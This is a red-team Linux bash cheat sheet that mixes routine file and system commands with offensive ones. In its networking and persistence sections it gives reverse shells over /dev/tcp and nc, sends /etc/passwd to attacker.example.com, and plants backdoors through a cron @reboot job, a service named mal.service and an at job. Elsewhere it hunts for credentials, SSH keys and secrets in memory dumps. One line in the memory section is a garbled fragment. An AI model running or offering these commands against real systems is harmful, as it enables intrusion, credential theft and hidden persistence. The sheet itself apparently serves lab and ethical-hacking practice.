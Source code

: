 ```yaml
---
title: Linux Bash Reference
tags: [linux, bash, enumeration, persistence, red-team]
tools: [bash, grep, find, locate, ss, netstat, curl, wget, nc, ssh, scp, rsync, sudo, systemctl, crontab]
---
```


# Linux Bash Reference

## Quick file commands

```bash
# List (human readable), show hidden
ls -lah

# View file contents (pager)
less file.txt
cat file.txt

# Copy / Move / Delete
cp -av source dest
mv -v file dest/
rm -rf ./build/

# Create files/dirs
touch filename.txt
mkdir -p /tmp/mydir
truncate -s 1M placeholder.bin   # create file of size 1MB

# Permissions
chmod 700 script.sh
chown user:group file
getfacl file  # check ACLs

# Archive / compress
tar -cvzf archive.tgz somedir/
unzip package.zip
```

## System & user enumeration

```bash
# Basic system info
uname -a
lsb_release -a  # on many distros
cat /etc/os-release
hostnamectl

# User / groups
id
whoami
getent passwd | grep -E ":/home/"    # list human users
cut -d: -f1,3,6 /etc/passwd
lastlog | head

# Processes / services
ps aux --sort=-%cpu | head -n 20
ss -tunap        # active sockets (recommended)
netstat -tulpn   # if available
systemctl list-units --type=service --state=running
service --status-all

# Network config
ip addr show
ip route show
ip neigh show
route -n

# Mounted filesystems
mount | column -t
lsblk -f
```

## Finding files & secrets

```bash
# Find files by name (recursive)
find / -type f -iname "*password*" 2>/dev/null
find /home -maxdepth 3 -type f -name "*.env" 2>/dev/null

# Search file contents (grep)
grep -RIn --exclude-dir={.git,node_modules} -e "password" -e "secret" /home 2>/dev/null

# Locate database (needs updatedb)
locate .env | head

# Look for common secret locations
ls -lah ~/.ssh
cat ~/.ssh/authorized_keys
cat ~/.bash_history
cat /var/www/html/.env

# Find suid binaries (privilege escalation hunting)
find / -perm -4000 -type f -exec ls -ld {} \; 2>/dev/null

# Find writable files and directories as any user
find / -writable -type d 2>/dev/null | head

# Check sudo rights
sudo -l 2>/dev/null

# Check for credentials in configs
grep -RIn "password\|passwd\|token\|key\|secret" /etc /home 2>/dev/null | head
```

## Networking & transfer

```bash
# Test connectivity
ping -c 4 8.8.8.8
traceroute -n 10.0.0.1

# Download a file
curl -sSL -o /tmp/tool https://example.com/tool && chmod +x /tmp/tool
wget -q -O /tmp/tool https://example.com/tool

# Upload / copy between hosts
scp user@host:/path/to/file ./
rsync -avz user@host:/var/www/ ./www/

# Simple TCP listener (netcat)
# Listener (attacker)
nc -lvnp 9001
# Connect (target)
nc attacker.example.com 9001 < /etc/passwd

# Reverse shell examples (for labs)
# Bash reverse shell (target)
bash -i >& /dev/tcp/10.0.0.5/4444 0>&1

# Check open ports and services
ss -tunlp
nmap -sC -sV -p- 10.0.0.0/24
```

## Scheduled jobs & persistence

```bash
# List crontab for current user
crontab -l
# System cron jobs
ls -lah /etc/cron.* /etc/crontab

# Create a @reboot cronjob (persistence)
(crontab -l 2>/dev/null; echo "@reboot /usr/bin/nc -e /bin/bash attacker 4444") | crontab -

# Systemd service persistence example (create minimal service)
# /etc/systemd/system/mal.service
# [Unit]
# Description=malicious service
# [Service]
# ExecStart=/usr/bin/bash -lc 'bash -i >/dev/tcp/10.0.0.5/4444 0>&1'
# [Install]
# WantedBy=multi-user.target
sudo systemctl daemon-reload
sudo systemctl enable --now mal.service

# At jobs
echo "/usr/bin/bash -i >/dev/tcp/10.0.0.5/4444 0>&1" | at now + 1 minute
```

## Process & memory inspection

```bash
# View environment of process (requires privileges)
tr '\0' '\n' < /proc/<pid>/environ
' < /proc/<pid>/environ

# Check listening processes and owners
ss -tunlp | grep LISTEN
lsof -i -P -n | grep LISTEN

# Dump process memory (requires privileges)
gcore <pid>    # creates core.<pid>
strings core.<pid> | grep -i password

# Check loaded kernel modules
lsmod
modinfo <module>
```

## Common enumeration utilities (one-liners)

```bash
# Quick list of interesting files, writable locations and cronjobs
(echo "-- Writable dirs --"; find / -type d -writable -print 2>/dev/null | head -n 50; echo "\n-- SUID bins --"; find / -perm -4000 -type f -print 2>/dev/null; echo "\n-- Cronjobs --"; ls -la /etc/cron* /var/spool/cron/crontabs 2>/dev/null) > /tmp/enum_summary.txt

# Check sudo misconfigurations and privileged binaries
sudo -l 2>/dev/null || true
find / -perm -4000 -user root -type f -exec ls -ld {} \; 2>/dev/null | head
```

## Notes

- Redirect errors to /dev/null when you want cleaner output (e.g., permission denied noise).
- Use `ss` instead of `netstat` on modern systems for more accurate socket info.
- Be cautious when fetching and executing remote binaries — only do this in lab environments you control.
- This sheet is a reference for ethical hacking practice and red-team exercises. Keep usage legal and within scope.
